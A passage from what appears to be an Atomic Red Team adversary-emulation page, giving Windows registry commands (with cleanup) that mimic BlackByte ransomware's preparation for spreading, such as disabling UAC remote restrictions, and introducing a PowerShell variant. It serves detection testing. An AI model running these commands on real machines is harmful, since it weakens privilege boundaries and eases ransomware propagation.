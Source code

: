 
**Supported Platforms:** Windows


**auto_generated_guid:** 4f4e2f9f-6209-4fcf-9b15-3b7455706f5b






#### Attack Commands: Run with `command_prompt`!  Elevation Required (e.g. root or admin) 


```cmd
cmd.exe /c reg add HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System /v LocalAccountTokenFilterPolicy /t REG_DWORD /d 1 /f
cmd.exe /c reg add HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System /v EnableLinkedConnections /t REG_DWORD /d 1 /f
cmd.exe /c reg add HKLM\SYSTEM\CurrentControlSet\Control\FileSystem /v LongPathsEnabled /t REG_DWORD /d 1 /f
```

#### Cleanup Commands:
```cmd
reg delete HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System\ /v LocalAccountTokenFilterPolicy /f >nul 2>&1
reg delete HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System\ /v EnableLinkedConnections /f >nul 2>&1
reg delete HKLM\SYSTEM\CurrentControlSet\Control\FileSystem\ /v LongPathsEnabled /f >nul 2>&1
```





<br/>
<br/>

## Atomic Test #8 - BlackByte Ransomware Registry Changes - Powershell
This task recreates the steps taken by BlackByte ransomware before it worms to other machines via Powershell.  See "Preparing to Worm" section: https://redcanary.com/blog/blackbyte-ransomware/
The steps are as follows:
<ol>
    <li>1. Elevate Local Privilege by disabling UAC Remote Restrictions</li>
    <li>2. Enable OS to share network connections between different privilege levels</li>
    <li>3. Enable long path values for file paths, names, and namespaces to ensure encryption of all file names and paths</li>
</ol>
The registry keys and their respective values will be created upon successful execution.

**Supported Platforms:** Windows


**auto_generated_guid:** 0b79c06f-c788-44a2-8630-d69051f1123d



